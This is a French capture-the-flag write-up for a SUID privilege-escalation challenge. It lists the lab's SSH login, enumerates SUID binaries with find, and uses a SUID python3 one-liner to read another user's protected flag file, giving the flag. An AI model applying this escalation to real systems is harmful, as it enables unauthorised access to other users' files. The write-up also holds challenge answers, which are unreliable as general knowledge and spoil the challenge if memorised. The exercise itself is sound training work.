 # To B, or ! to B - 128 points

## Problème

```idl
Votre client vous remercie pour votre travail et vous assure qu'il a fait les modifications nécessaires pour améliorer la sécurité de son serveur applicatif.
Prouvez-lui que ce n'est toujours pas suffisant.


=== Connexion SSH ===
Login : padawan
Mdp : padawan
Serveur : toBOrNot2B.phack.fr
```

## Résolution

En arrivant sur le serveur, voici ce qui nous est envoyé:

```
Bienvenue !

Le flag se trouve dans /home/master/flag.txt
Malheureusement, tu n'as pas les droits de le lire.

Trouves un moyen d'y accéder par toi même.

Bonne chance...



-bash-5.1$
```

Le challenge porte le tag `suid`. Il s'agit probablement d'une escalation de privilèges vers `master` ou plus.

On cherche les fichiers avec le bit SUID : `find / -perm /4000 2> /dev/null`. Le seul résultat est `python3`, qui nous permet d'exécuter du Python en tant que `master`.

Reste à l'utiliser pour lire le flag :

```
-bash-5.1$ cd ../master/
-bash-5.1$ python3 -c "with open('./flag.txt','r') as f: print(f.read())"
PHACK{U_4r3_hiM_bu7_h3's_n07_U}
```

**Flag: `PHACK{U_4r3_hiM_bu7_h3's_n07_U}`**
